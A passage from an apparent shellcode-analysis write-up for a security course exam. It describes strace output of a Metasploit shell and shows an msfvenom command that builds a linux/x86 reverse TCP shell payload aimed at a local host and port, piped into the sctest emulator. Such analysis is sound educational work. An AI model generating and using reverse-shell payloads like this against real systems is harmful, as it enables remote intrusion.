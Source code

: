 The green line shows the shellcode received from metasploit. Folling the `strace` output, we can see that the shellcode performs an `execve()` syscall, executing `/bin/sh` and finally running the command `id`, sent from metasploit's terminal.

Another tool we can use for analysing shellcode is [sctest](https://www.aldeid.com/wiki/Libemu/sctest) which can be used for emulating shellcode. Running the following commands will create a graphical image showing which syscalls are being made.

```
dubs3c@slae:~/SLAE/EXAM/github/assignment_5$ msfvenom -p linux/x86/shell/reverse_tcp -a x86 --platform linux lhost=192.168.1.20 lport=1337 -f raw | ~/SLAE/libemu/tools/sctest/sctest -vvv -Ss 100000 -G reverse_tcp.dot
dubs3c@slae:~/SLAE/EXAM/github/assignment_5$ dot reverse_tcp.dot -Tpng -o reverse_tcp.png
```

The generated image:

<center>